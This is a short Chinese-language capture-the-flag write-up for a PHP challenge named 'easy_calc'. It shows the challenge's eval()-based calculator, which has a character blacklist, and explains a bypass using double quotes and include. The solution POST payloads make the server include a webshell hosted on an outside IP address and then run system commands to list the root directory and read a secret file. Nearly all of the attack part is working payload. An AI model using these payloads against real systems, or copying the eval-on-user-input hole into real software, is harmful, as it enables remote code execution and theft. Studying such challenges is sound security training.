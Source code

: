 



+++

## easy_calc

+++

### 源码

```php
<?php


if(check($code)){

    eval('$result='."$code".";");
    echo($result);    
}

function check(&$code){

    $num1=$_POST['num1'];
    $symbol=$_POST['symbol'];
    $num2=$_POST['num2'];

    if(!isset($num1) || !isset($num2) || !isset($symbol) ){
        
        return false;
    }

    if(preg_match("/!|@|#|\\$|\%|\^|\&|\(|_|=|{|'|<|>|\?|\?|\||`|~|\[/", $num1.$num2.$symbol)){
        return false;
    }

    if(preg_match("/^[\+\-\*\/]$/", $symbol)){
        $code = "$num1$symbol$num2";
        return true;
    }

    return false;
}
```

### 第一种

基本上很多符合都过滤了，但是**过滤的越多，剩下来的就越显眼**，很显然过滤了单引号没有过滤**双引号**()
不需要括号的函数**include require unset isset print echo**，有**include**结合双引号
**√**，包含马

```php
稍微构造一下
POST num1=1;include "http://1.15.107.150:7778/xlshellxl.txt";&symbol=%2B&num2=1&1=system('ls /');
POST num1=1;include "http://1.15.107.150:7778/xlshellxl.txt";&symbol=%2B&num2=1&1=system('tac /secret');
```
